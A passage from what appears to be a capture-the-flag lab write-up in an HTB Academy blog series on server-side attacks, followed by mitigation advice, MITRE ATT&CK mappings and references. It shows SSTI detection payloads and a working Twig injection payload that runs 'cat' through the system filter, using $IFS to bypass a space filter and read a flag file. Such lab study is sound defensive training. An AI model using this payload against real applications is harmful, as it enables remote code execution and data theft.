
*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### Using burpsuite repeater

We will now proceed with SSTI attack and set the 'id' value to:
`${7*7}`
Using burpsuite repeater:

Value not changed. Let's proceed with:

```text
{{7*7}}
```


Value is now '49', indicating SSTI vulnerability.

We will proceed to determine the SSTI type with the payload:

```text
{{7*'7'}}
```



*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


As the value remains '49' – its twig SSTI.

We will proceed to inject the twig SSTI payload, with the removal of spaces,
and in the command 'cat /flag.txt' – we will replace the space with linux
'special space' – '$IFS' (the server won't accept spaces, bypass is required):

```text
{{['cat${IFS}/flag.txt']|filter('system')}}
```



*_Figure 15.1 — Lab execution and output verification (Page 15)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1552.005, T1059` |
| **Common Weakness Enumerations** | `CWE-918, CWE-611, CWE-1336` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Exploiting SSRF, XXE, and SSTI vulnerabilities |
| [`T1552.005`](https://attack.mitre.org/techniques/T1552/) | **Unsecured Credentials: Cloud Instance Metadata** | `Credential Access` | Querying AWS/Azure/GCP metadata endpoints (`169.254.169.254`) via SSRF |
| [`T1059`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter** | `Execution` | Achieving remote code execution via Server-Side Template Injection |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-918`: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [`CWE-611`: Improper Restriction of XML External Entity Reference (XXE)](https://cwe.mitre.org/data/definitions/611.html)
- [`CWE-1336`: Improper Neutralization of Special Elements Used in a Template Engine (SSTI)](https://cwe.mitre.org/data/definitions/1336.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Block outbound web server traffic to internal network addresses (RFC 1918) and cloud metadata service (`169.254.169.254/32`).
- Disable DTD external entity resolution (`DOCTYPE`, `ENTITY`) in all XML parsers (`libxml_disable_entity_loader(true)`).
- Sanitize input strings and avoid concatenating user inputs into template engine rendering functions (Jinja2, Twig, Freemarker).


---

## Authoritative References & Recommended Reading

- [HTB Academy: Server-side Attacks](https://academy.hackthebox.com/module/145) — *Official Hack The Box curriculum track*
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html) — *Comprehensive SSRF defense architecture*
- [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) — *XML parser hardening configurations*
- [PortSwigger: Server-Side Template Injection (SSTI)](https://portswigger.net/web-security/server-side-template-injection) — *Analysis of template engine sandboxes*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-19-password-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 19: Password Attacks & Credential Harvesting</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 20 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-21-windows-privilege-escalation/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 21: Windows Privilege Escalation</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
